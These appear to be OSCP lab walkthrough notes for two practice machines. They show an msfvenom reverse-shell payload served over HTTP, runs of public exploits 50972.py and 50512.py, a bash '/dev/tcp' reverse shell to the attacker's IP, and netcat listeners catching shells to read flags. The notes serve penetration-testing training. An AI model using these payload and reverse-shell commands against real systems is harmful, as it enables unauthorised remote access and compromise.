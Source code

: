 ```
6. Create payload file. 
┌──(kali㉿kali)-[~/OSCP/12]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.195 LPORT=4445 -f exe > reverse.exe

7. Started http server in 80. 
┌──(kali㉿kali)-[~/OSCP/12]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.233.10 - - [29/Jan/2024 07:43:14] "GET /reverse.exe HTTP/1.1" 200 -
192.168.233.10 - - [29/Jan/2024 07:43:14] "GET /reverse.exe HTTP/1.1" 200 -

8. Execute exploit. 
─(kali㉿kali)-[~/OSCP/12]
└─$ python3 50972.py 192.168.233.10 192.168.45.195 reverse.exe
[+] 3..2..1..
[+] *Super fast hacker typing*
[+] Retrieving payload
[+] Done! Check Your Listener?

9. Obatined flag and reverse shell. 
┌──(kali㉿kali)-[~/OSCP/12]
└─$ sudo nc -nvlp 4445
listening on [any] 4445 ...
connect to [192.168.45.195] from (UNKNOWN) [192.168.233.10] 49852
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
C:\Users\offsec\Desktop>type flag.txt
type flag.txt
OS{1bec1dbf28aa7b6df0ea65835daee6a3}
```

2. Walkthrough 
```
HINT

    Scan the ports and note the web server version (HTTP).
    Search for a suitable exploit and make sure you check what arguments the exploit requires.
    To get more interactive shell, you may use bash reverse shell.
    The flag is under /home/offsec/.


1. Tried exploit 50383.sh, can get user id but cannot get reverse shell. 

2. Used exploit 50512.py, download and use it. 
python3 50512.py 192.168.233.188:80

4. Get Reverse shell and obtained flag. (Choice = 0)

╭─daemon@paradigm: /usr/bin                                                  
╰─$ bash -i >& /dev/tcp/192.168.45.195/4446 0>&1 

┌──(kali㉿kali)-[~/OSCP/12]
└─$ sudo nc -nvlp 4446
listening on [any] 4446 ...
connect to [192.168.45.195] from (UNKNOWN) [192.168.233.188] 48482
bash: cannot set terminal process group (993): Inappropriate ioctl for device
bash: no job control in this shell
daemon@paradigm:/usr/bin$

daemon@paradigm:/home/offsec$ cat flag.txt
cat flag.txt
OS{30300120e7ec06c194c4c9e5d01111d2}
```